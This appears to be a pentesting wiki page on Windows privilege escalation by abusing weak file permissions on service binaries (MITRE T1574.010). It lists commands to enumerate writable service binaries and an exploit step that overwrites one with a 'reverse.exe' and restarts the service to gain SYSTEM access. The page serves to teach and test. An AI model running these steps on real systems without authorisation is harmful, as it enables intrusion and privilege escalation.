```yaml
---
description: MITRE ATT&CK™ - Hijack Execution Flow: Services File Permissions Weakness  -
  Technique T1574.010
---
```


# Weak File Permissions

## Theory

It is very often in Windows environments to discover services that run with SYSTEM privileges. If you have write permissions over the folder or binary used by the service you can use it to escalate you privileges.

## Practice

If we have enough permissions over the binary of a service, we can replace it to our own binary. If you have write permissions over the folder you can do [DLL Hijacking](weak-files-permissions.md)

{% tabs %}
{% tab title="Enum" %}
We can get every binary that is executed by a service using wmic and check your permissions using icacls

```powershell
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt

for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"
```

Or we can use `sc` and `icacls`

```powershell
#Get list of services
sc query state= all | findstr "SERVICE_NAME:" >> C:\Temp\Servicenames.txt

#Get each permissions over BINARY_PATH_NAME 
FOR /F "tokens=2 delims= " %i in (C:\Temp\Servicenames.txt) DO @echo %i >> C:\Temp\services.txt
FOR /F %i in (C:\Temp\services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> C:\Temp\path.txt
```

Or we can use the `servicesinfo` module of [WinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

```powershell
winPEASx64.exe servicesinfo
```
{% endtab %}

{% tab title="Exploit" %}
We just have to replace the binary.

```powershell
copy /y c:\Temp\reverse.exe "c:\Program Files\File Permissions Service\filepermservice.exe"
```
And then, restart the service
```powershell
#Using wmic
wmic service <Service_Name> call stopservice
wmic service <Service_Name> call startservice

#Using net
net stop <Service_Name> && net start <Service_Name>

#Using sc.exe
sc stop <Service_Name>
sc start <Service_Name>
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---incorrect-permissions-in-services" %}
